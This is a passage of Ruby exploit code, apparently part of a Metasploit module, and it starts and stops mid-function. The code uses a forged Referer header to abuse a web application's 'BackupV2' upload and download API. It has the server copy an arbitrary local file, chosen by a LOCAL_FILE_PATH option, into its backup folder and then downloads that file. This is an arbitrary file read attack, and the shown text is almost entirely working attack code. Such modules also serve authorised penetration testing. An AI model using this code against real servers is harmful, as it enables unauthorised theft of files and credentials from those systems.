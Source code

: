     res = send_request_cgi({
      'method' => 'GET',
      'uri' => normalize_uri(target_uri.path, 'api', 'BackupV2', 'upload'),
      'vars_get' => {
        'src' => datastore['LOCAL_FILE_PATH']
      },
      'headers' => {
        'Referer' => referer
      }
    })

    if res.nil?
      fail_with(Failure::Unreachable, 'Upload request failed.')
    end

    if res.code != 200
      fail_with(Failure::Unknown, res.body)
    end

    if res.headers['Content-Type'] == 'application/json'
      json_res = res.get_json_document

      if json_res['success']
        print_good json_res['success']
        return
      end

      fail_with(Failure::Unknown, res.body)
    end

    fail_with(Failure::BadConfig, 'Either the file cannot be read or the file does not exist.')
  end

  def try_download
    filename = datastore['LOCAL_FILE_PATH'].include?('\\') ? datastore['LOCAL_FILE_PATH'].split('\\')[-1] : datastore['LOCAL_FILE_PATH'].split('/')[-1]
    print_status 'Downloading ' + filename + ' from the backup folder.'

    referer = ''
    if !datastore['VHOST'].nil? && !datastore['VHOST'].empty?
      referer = "http#{datastore['SSL'] ? 's' : ''}://#{datastore['VHOST']}/"
    else
      referer = full_uri
    end

    res = send_request_cgi({
      'method' => 'GET',
      'uri' => normalize_uri(target_uri.path, 'api', 'BackupV2', 'download'),
      'vars_get' => {
        'filename' => filename
      },
      'headers' => {
        'Referer' => referer
      }
    })
